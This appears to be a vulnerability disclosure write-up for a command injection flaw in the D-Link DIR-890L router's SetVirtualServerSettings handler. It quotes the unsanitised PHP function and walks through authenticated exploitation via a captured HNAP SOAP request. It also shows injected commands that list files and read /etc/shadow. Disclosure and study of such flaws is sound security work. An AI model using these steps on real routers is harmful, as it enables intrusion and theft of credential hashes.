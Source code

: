 # D-Link DIR-890L RCE
Affected Version: <= v1.22B01 Hotfix (latest)

Firmware: [Here](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-890L)

This model has reached the end of its life-cycle. The resources associated with these products have ceased their development and are no longer supported.
D-Link Systems, Inc. recommends retiring these products and replacing them with products that receive firmware updates.

## Vulnerability
In its firmware we can find a function `getWOLMAC` in `SetVirtualServerSettings.php`
```php
function getWOLMAC($ipv4addr)
{
	$cmd = "scut -p ".$ipv4addr." -f 3 /proc/net/arp";
	setattr("/runtime/wakeonlan/mac", "get", $cmd);
	$mac = get("", "/runtime/wakeonlan/mac");
	del("/runtime/wakeonlan/mac");
	return $mac;
}
```
The `$cmd` concatenates `$ipv4addr` directly into command without filtering, and it is called at
```php
		$ipv4addr = get("x", "LocalIPAddress");
        ...
		if($description == "Wake-On-Lan")
		{
			$wolmac = getWOLMAC($ipv4addr);
			set($vsvr_entry.":".$InDeX."/wakeonlan_mac", $wolmac);
		}
```
So When you set `$description` (corresponding to virtual server name) as `"Wake-On-Lan"`, there may exist `RCE`(remote command execution) in Virtual Server related pages: `/VirtualServer.html`.

## Exploit
- It requires authentication, so log in first.
![Login](pic/login.png)
![Home](pic/home.png)

- Then visit [Virtual Server page (/VirtualServer.html)](http://192.168.0.1/VirtualServer.html) which is inaccessible through panel.
![Virtual Server](pic/virtualserver.png)

- Add a rule named `Wake-On-Lan`.
![Add rule](pic/addrule.png)
![Rule results](pic/ruleres.png)

- Start `burpsuite` before click `Save` button and capture the following packet:
![packet](pic/packet.png)
```h
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: A4A816AE6CF2AC5537B0EB390FFB591C 1436839665
Content-Length: 765
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/VirtualServer.html
Cookie: uid=ZeNYZag3Gw

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>Wake-On-Lan</VirtualServerDescription>
					<ExternalPort>1</ExternalPort>
					<InternalPort>1</InternalPort>
					<ProtocolType>TCP</ProtocolType>
					<ProtocolNumber>6</ProtocolNumber>
					<LocalIPAddress>192.168.0.100</LocalIPAddress>
					<ScheduleName></ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

- Prepare a http server then:
	![python server](pic/pythonserver.png)

- Use `Repeater` module to test `RCE`(remote command execution):
![burpsuite](pic/burp.png)

- And we get:
![result](pic/res.png)

- Test commands injection and read `/etc/shadow`:
![command ls /busy/box](pic/burpls.png)
![result](pic/resls.png)
![command ls /busybox -al](pic/burplsal.png)
![result](pic/reslsal.png)
![command cat /etc/shadow](pic/burpcat.png)
![result](pic/rescat.png)



